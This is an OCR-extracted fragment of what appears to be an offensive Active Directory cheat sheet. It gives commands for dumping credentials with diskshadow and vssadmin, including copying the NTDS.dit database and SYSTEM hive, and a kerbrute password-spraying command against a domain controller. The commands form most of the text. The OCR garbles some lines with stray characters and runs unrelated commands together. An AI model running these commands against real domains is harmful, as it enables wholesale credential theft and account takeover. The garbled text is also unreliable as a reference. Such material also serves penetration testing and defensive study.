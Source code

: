 Methods:

./exchangeRelayx.py ...

<a name="dumping-with-diskshadow"></a>
# Dumping with diskshadow

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Dumping

Methods:

1\. priv.txt contain

SET CONTEXT PERSISTENT NOWRITERSp

add volume c: alias 0xprashantp

createp

expose %0xprashant% z:p

2\. exec with diskshadow /s priv.txt

<a name="dumping-with-vssadmin"></a>
# Dumping with vssadmin

Domain: Yes

Local Admin: Y/N

OS: Windows

Type: Dumping

Methods:

vssadmin create shadow /for=C:

copy
\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\NTDS\\NTDS.dit
C:\\ShadowCopy

copy
\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM
C:\\ShadowCopy./kerbrute_linux_amd64 passwordspray -d domain.local \--dc
10.10.10.10 domain_users.txt Password123

<a name="password-spraying"></a>
# Password Spraying

Domain: Yes
